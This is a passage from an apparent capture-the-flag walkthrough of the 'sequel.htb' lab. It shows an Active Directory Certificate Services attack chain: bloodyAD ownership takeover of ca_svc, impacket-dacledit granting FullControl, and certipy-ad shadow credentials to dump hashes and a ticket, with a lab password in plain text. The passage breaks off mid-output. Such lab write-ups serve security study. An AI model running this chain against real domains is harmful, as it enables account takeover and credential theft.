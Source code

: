 Add the found password to `passwords.txt` and re-run `nxc` to bruteforce user/pass.

## Abusing ADCS

### Bloodhound - Dump AD
We can run Bloodhound to dump all AD.

### bloodyAD - Get writable AD objects
```shell
❯ bloodyAD --host $ip -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 get writable

distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=sequel,DC=htb
permission: WRITE

distinguishedName: CN=Ryan Howard,CN=Users,DC=sequel,DC=htb
permission: WRITE

distinguishedName: CN=Certification Authority,CN=Users,DC=sequel,DC=htb
OWNER: WRITE
```

As you can see we can write into the CA object.

Let's try to modify the owner of the `ca_svc` to our ryan user.

### BloodyAD - Take ownership of ca_svc user object
```shell
❯ bloodyAD --host dc01.sequel.htb -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 set owner ca_svc ryan
[+] Old owner S-1-5-21-548670397-972687484-3496335370-512 is now replaced by ryan on ca_svc
```
- The set owner command modifies the `nTSecurityDescriptor` of the `ca_svc` object, specifically the `Owner` field, to point to `ryan`.
- The owner of an object has implicit rights to modify the object's permissions (DACL - Discretionary Access Control List).

### DACLedit - Adding FullControl of ca_svc to ryan user
```shell
❯ impacket-dacledit -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb/ryan:WqSZAF6CysDQbGb3'
[*] DACL backed up to dacledit-20250308-221758.bak
[*] DACL modified successfully!
```
- This modifies the DACL of the `ca_svc` object to explicitly grant `ryan` the `FullControl` permission.
- `FullControl` includes all possible permissions, such as reading, writing, deleting, and modifying the object.

### Certipy-AD - Dump hashes & TGT ticket for user ca_svc
```shell
❯ certipy-ad shadow auto -u ryan@sequel.htb -p 'WqSZAF6CysDQbGb3' -dc-ip $ip -ns $ip -target dc01.sequel.htb -account ca_svc
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '614c2a2b-4179-7d3b-1a76-e45b3d1bc831'
[*] Adding Key Credential with device ID '614c2a2b-4179-7d3b-1a76-e45b3d1bc831' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID '614c2a2b-4179-7d3b-1a76-e45b3d1bc831' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Using principal: ca_svc@sequel.htb
```